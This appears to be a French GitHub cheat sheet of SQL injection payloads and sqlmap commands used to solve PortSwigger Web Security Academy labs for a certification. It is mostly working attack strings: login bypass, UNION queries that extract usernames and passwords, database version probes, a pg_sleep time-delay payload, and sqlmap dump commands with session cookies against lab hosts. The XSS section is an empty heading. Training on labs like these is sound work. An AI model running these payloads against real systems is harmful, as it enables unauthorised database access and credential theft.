 # Liste des commandes SQLi, XSS, CRCF ect.... pour passer la certification


## 1/ SQL injection

- [X] SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

    `?category=Pets' OR 1=1 --`

- [X] SQL injection vulnerability allowing login bypass
    
    `csrf=ok13OxKIWATN6nuJiviRmIaPQBeSNtTB&username=administrator'--&password=test`
    

- [X] SQL injection UNION attack, determining the number of columns returned by the query

    `?category=Pets'+UNION+SELECT+NULL,NULL,NULL--`

- [X] SQL injection UNION attack, finding a column containing text

    `?category=Pets'+UNION+SELECT+NULL,'3QFtaD',NULL--`

- [X] SQL injection UNION attack, retrieving data from other tables

    `?category=Gifts'+UNION+SELECT+username,password+from+users--`

- [X] SQL injection UNION attack, retrieving multiple values in a single column

    `?category=Pets'+UNION+SELECT+NULL,CONCAT(username,'+',password)+FROM+users--`
   
- [X] SQL injection attack, querying the database type and version on Oracle

    `?category=Pets'+UNION+SELECT+'a',banner+FROM+v$version--`

- [X] SQL injection attack, querying the database type and version on MySQL and Microsoft

    `?category=Gifts'+UNION+SELECT+@@version,+'a'#` # pour les commentaires en MySQL

- [X] SQL injection attack, listing the database contents on non-Oracle databases

    ```sqlmap -u URL
    
    --all #Retrieve everything
    
    --dump #Dump DBMS database table entries
    
    --dbs #Names of the available databases
    
    --tables #Tables of a database ( -D <DB NAME> )
    
    --columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
    
    -D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column```
    
    
- [X] SQL injection attack, listing the database contents on Oracle

    ```
    sqlmap -u URL -D DB -T TABLE --dump
    ```

- [X] Blind SQL injection with conditional responses
    
    SQLi dans un cookie :
    
    `sqlmap -u https://0a3700fb034bd637809b997f00c0000c.web-security-academy.net --level 3 --param-filter='COOKIE' --cookie='TrackingId=Po558KqESh0tBbOQ; session=Q4g1iOWrZkGDUZefNNOOqJRqpOXqKWY8'`
    
    Le cookie est vulnérable :
    
        `sqlmap -u https://0a3700fb034bd637809b997f00c0000c.web-security-academy.net --level 3 --param-filter='COOKIE' --cookie='TrackingId=Po558KqESh0tBbOQ; session=Q4g1iOWrZkGDUZefNNOOqJRqpOXqKWY8' -D public -T users --dump`
    

- [X] Blind SQL injection with conditional errors

    `sqlmap -u https://0a1000590442bc9a801fc67600f200ab.web-security-academy.net/ --level 3 --param-filter='COOKIE' --cookie='TrackingId=hW88IAKyNKdKynag; session=CCL1SGTI9xOkwZgLmrp1s8r2CsNJ6aao' -D PETER -T USERS --dump`

- [ ] Visible error-based SQL injection

- [X] Blind SQL injection with time delays

    `sqlmap -u https://0a20005903275bbc80e42bc700710057.web-security-academy.net/ --level 3 --risk 3 --param-filter='COOKIE' --cookie='TrackingId=33iPOvvWyVfcT3Di; session=dZhzxLd1oNXuUbKrImxt3IhY4dMNTUPp' --dbms=postgresql -D public -T users --dump`
    
    Ca marche mais l'exercice veut un delay de 10sec pour une base postgresql : `TrackingId=33iPOvvWyVfcT3Di' || pg_sleep(10)--`

- [ ] Blind SQL injection with time delays and information retrieval

    

- [ ] Blind SQL injection with out-of-band interaction

- [ ] Blind SQL injection with out-of-band data exfiltration

- [ ] SQL injection with filter bypass via XML encoding






## 2/ XSS
